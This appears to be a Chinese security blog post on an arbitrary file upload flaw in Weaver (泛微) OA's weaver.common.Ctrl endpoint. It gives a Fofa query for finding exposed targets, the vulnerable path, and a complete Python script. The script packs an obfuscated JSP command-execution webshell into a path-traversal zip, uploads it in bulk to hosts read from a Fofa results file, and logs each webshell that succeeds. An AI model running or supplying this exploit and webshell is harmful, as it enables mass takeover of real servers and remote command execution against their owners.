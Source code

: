 # 泛微OA weaver.common.Ctrl 任意文件上传漏洞




### 声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。d



### 漏洞描述

泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，攻击者通过漏洞可以上传webshell文件控制服务器



### Fofa

```bash
app="泛微-协同办公OA"
```





### 复现

漏洞路径为：

```bash
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```



查看发送的数据包：

![](http://image.geoer.cn/fwoa_wiershark.jpg)



使用POC成功上传文件：

![](http://image.geoer.cn/fwoa_shell.png)





贴上大佬的批量上传POC脚本(我改过的)：

```python
import zipfile
import random
import sys
import requests



def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../../../'+webshell_name1

def file_zip():
    shell = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
    if(request.getParameter("cmd")!=null){
        BASE64Decoder decoder = new BASE64Decoder();
        Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
        Process e = (Process)
                rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
                        String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
                        Object[]{}), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
    """   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr(webshell_name2, shell)


def GetShell(urllist):
    file_zip()
    print('上传文件中')
    urls = urllist + '/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp'
    file = [('file1', (mm+'.zip', open(mm + '.zip', 'rb'), 'application/zip'))]
    requests.post(url=urls,files=file,timeout=60, verify=False)
    GetShellurl = urllist+'/cloudstore/'+webshell_name1
    GetShelllist = requests.get(url = GetShellurl)
    if GetShelllist.status_code == 200:
        print('利用成功webshell地址为:'+GetShellurl)
        with open("success_webshell.txt", "a+") as f2:
            f2.write(GetShellurl + "\n")
    else:
        print('未找到webshell利用失败')

def main():
    # # if (len(sys.argv) == 2):
    # #     url = sys.argv[1]
    #     GetShell(url)
    # else:
    #     print("python3 poc.py http://xx.xx.xx.xx")
    with open("fofa提取结果文件.txt", "r+") as f:
        lines = f.readlines()
        for line in lines:
            try:
                GetShell(line.strip())
            except Exception as e:
                pass


if __name__ == '__main__':
    main()
```

![](http://image.geoer.cn/fwoa-py.png)







参考大佬文章链接：https://mp.weixin.qq.com/s/ePYRFPfu-pvWMKSiffporA





---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E6%B3%9B%E5%BE%AEoa-weaver-common-ctrl-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/  

